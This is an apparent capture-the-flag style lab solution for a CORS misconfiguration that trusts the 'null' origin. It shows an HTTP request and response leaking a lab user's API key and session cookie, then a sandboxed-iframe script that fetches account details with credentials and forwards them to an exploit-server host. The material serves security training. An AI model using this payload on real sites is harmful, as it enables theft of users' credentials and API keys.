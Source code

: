 ```
GET /accountDetails HTTP/1.1
Host: 0aa3004303c16683c10e9e2f004100bb.web-security-academy.net
Cookie: session=EtvZQpXCSSJsP9DkNNEi0bVAZBOYGUKy
Origin: null
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa3004303c16683c10e9e2f004100bb.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close




```


```

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "ETDoUllEuuE6dO2EEKR1eVCobIo6lx0n",
  "sessions": [
    "EtvZQpXCSSJsP9DkNNEi0bVAZBOYGUKy"
  ]
}

```

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0aa3004303c16683c10e9e2f004100bb.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a99003e03d76619c1479d38010c00a2.exploit-server.net/'+this.responseText;
};
</script>"></iframe>

```
